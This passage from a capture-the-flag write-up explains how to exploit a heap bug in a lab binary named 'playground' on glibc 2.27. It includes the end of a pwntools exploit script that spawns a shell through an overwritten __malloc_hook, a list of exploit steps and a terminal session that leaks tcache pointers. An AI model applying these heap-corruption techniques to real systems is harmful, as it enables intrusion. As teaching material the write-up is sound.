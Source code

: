 ```python
# points to the magic gadget, a shell will be spawned instead
# of calling the malloc
input('press any key to execute payload...')
r.recvuntil(b"> ")
r.sendline(b"1")
r.recvuntil(b"Size: ")
input('press any key...')
r.sendline(b"%d" % size)
r.interactive()
```

### playground

#### what does it do

It has only the `main` function which encompasses all the functionality. There are some nested loops that executes the following functionalities:

```shell
malloc n, free p, show p [n], write p [n]
```

Basically it can:

* Allocate a chunk of size `n` and return its address
* Free a chunk, given its address `p`
* Show the content of a chunk given `p`. By default it shows the first 8 bytes of data, unless a size `n` is specified.
* Write some data into a chunk, given `p`.

There are some obvious vulnerabilities: for e.g. the chunk freeing is achieved without checking if the chunk is allocated or not, which could be used as an attack surface to carry a fast bin attack.

#### `libc` version

A note about `libc` version: the program is using `libc` version 2.27 <u>which incorporates a backport of the tcache key</u>.

#### The exploit

Here's what we need to do in order to exploit this binary:

1. Set to zero `min_heap`
2. Overwrite `max_heap` with a high value
3. Overwrite `__malloc_hook` with the magic gadget.

**Note**: `min_heap` and `max_heap` are two global variables on which a sort of boundary check is performed before working with the heap.

**Setting `min_heap` to zero**

We need to exploit the presence of the key in the tcache, since it allows us to overwrite any DWORD with zeros. Here's an example:

```shell
❯ LD_PRELOAD=./libc-2.27.so ./playground
pid: 10714
main: 0x5555555551d9
> malloc 32
==> 0x555555559280
> malloc 32
==> 0x5555555592b0
> free 0x555555559280
==> ok
> free  0x5555555592b0
==> ok
> show  0x5555555592b0 2
0x5555555592b0:   0x555555559280
0x5555555592b8:   0x555555559010
```